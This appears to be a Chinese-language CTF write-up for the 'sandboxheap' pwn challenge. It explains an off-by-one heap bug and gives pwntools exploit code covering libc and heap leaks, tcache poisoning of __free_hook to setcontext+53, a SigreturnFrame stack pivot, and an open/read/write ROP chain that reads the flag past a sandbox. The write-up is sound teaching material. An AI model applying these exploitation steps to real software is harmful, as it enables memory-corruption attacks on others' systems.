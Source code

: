 # sandboxheap
### 程序分析
此题保护全开，还开了沙箱保护，只能通过ROW getflag  
有show函数可以得到堆中内容，有问题的地方是edit函数，存在off by one漏洞。  
![](./pics/add.png)  
![](./pics/edit.png)  
![](./pics/ineidt.png)  
由于多读了一字节，可以覆盖下一个chunk的preinuse位。  
需要注意的是edit中会对输入做一定处理，根据每个字符是否是1进行判断，因此我的输入为01组成的字符串，该字符串会按每8个字符进行分割，逆序后组成一个字节。  
### 思路分析
决定使用unsortedbin unlink泄露libc地址、堆地址，得到free_hook地址，在free_hook处写下setcontext+53地址,，这样能在调用free时更改寄存器（rbp，rip）的值，用栈迁移劫持程序运行堆上布置好的orw rop链。  
这是我第一次使用setcontext相关内容，我们可以用gdb查看下里面的东西。  
![](./pics/setcontext.png)  
发现在setcontext+53的地方有大量寄存器赋值的操作，使用pwntools的SigreturnFrame自动生成frame。  

接下来的大致思路都写在注释里了。  
```
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
#填充tcache 0x90
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)#改变第9块的presize和preinuse，使其释放时把第8第7块一块合并了，实现堆块重叠，这样只要第8块中出现libc地址就能用show函数得到
```
![](./pics/pic1.png)  
```
free(9)
add(11, 0x98)
add(12, 0x78)

#泄露libc
show(12)
p.recvuntil(b'Content: ')
libc_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
#泄露堆地址
add(0, 0x88)
edit(8,b'1'*8+p64(0x91))
free(12)
edit(8,b'1'*16)
show(8)
p.recvuntil(b'Content: ')
p.recvuntil(b'1'*16)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("heap_addr: ",hex(heap_addr))
edit(8,p64(0)+p64(91)+p64(free_hook))#改变tcache中第一个free chunk的fd指针为free_hook
```
![](./pics/pic2.png)  
接下来只需要申请两次大小为0x90的chunk就能在free_hook上开辟chunk。  
```
add(1, 0x88)
add(2, 0x88)#index为2的堆开在了free_hook上，改变freehook为setcontext+53
edit(2,p64(setcontext+53))

frame = SigreturnFrame()
frame.rsp=heap_addr+0x2d0#对这个值的要求不高，但不写的话会变成0就出错了
frame.rbp=heap_addr+0x2d0
frame.rip = leave_ret
# edit()
byte_frame=bytes(frame)
# gdb.attach(p,'b free')
edit(1,b'./flag\x00')
#下面两种方法得到orwrop链都可以
#heap_addr+0x1c0为flag
#heap_addr+0x1f0为随便选的输出flag的地方
orw_payload=p64(0xdeadbeef)#rbp
if 1==0:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,open_addr])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,read_addr])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,write_addr])
else:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,pop_rax,2,syscall])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,pop_rax,0,syscall])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x20,pop_rax,1,syscall])
edit(14,orw_payload)
edit(15,byte_frame)
free(15)#自动完成setcontext，然后执行orwrop链
```
![](./pics/success.jpg)  

